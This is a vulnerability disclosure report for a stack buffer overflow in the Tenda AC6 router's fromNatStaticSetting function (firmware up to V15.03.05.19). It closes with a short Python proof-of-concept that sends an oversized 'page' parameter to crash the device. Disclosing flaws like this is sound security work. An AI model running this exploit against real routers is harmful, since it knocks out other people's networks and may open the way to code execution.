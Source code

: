 # Information

**Vendor of the products:**   Tenda

**Vendor's website:** [首页_腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:  **GuoHengyu(2183056014@qq.com)

**Affected products:** AC6 

**Affected firmware version:**  <=V15.03.05.19

**Firmware download address:** [AC6V1.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102681)

# Overview

A buffer overflow vulnerability exists in the `fromNatStaticSetting` function of the Tenda AC6 router. By sending a crafted HTTP request with a malicious `page` parameter, a remote attacker can trigger a stack overflow that leads to a segmentation fault. This may result in denial-of-service (DoS) or potentially allow further exploitation.



# Vulnerability details

The Tenda AC6 V15.03.05.19 firmware has a buffer overflow vulnerability in the fromNatStaticSetting function.

![image-20250519171204529](1/image-20250519171204529.png)

![image-20250519171357593](1/image-20250519171357593.png)



A stack-based buffer overflow vulnerability exists in the Tenda AC6 router due to the use of `sprintf(s, "nat_static.asp?page=%s", v6);` without proper bounds checking on the `page` parameter. If a crafted `page` argument longer than 0x120 bytes is supplied, it will overflow the destination buffer `s`, potentially resulting in a segmentation fault. A remote attacker can exploit this issue to cause denial of service or potentially achieve arbitrary code execution.



# POC

```python
import requests


def execute_overflow(url, data):
    attack_params = {'page': data}
    server_response = requests.get(url, params=attack_params)
    server_response = requests.get(url, params=attack_params)

    

if __name__ == "__main__":
    target_url = "http://192.168.2.129/goform/NatStaticSetting"
    malicious_payload = b'a'*0x120

    execute_overflow(target_url, malicious_payload)
```

![image-20250519172815912](1/image-20250519172815912.png)


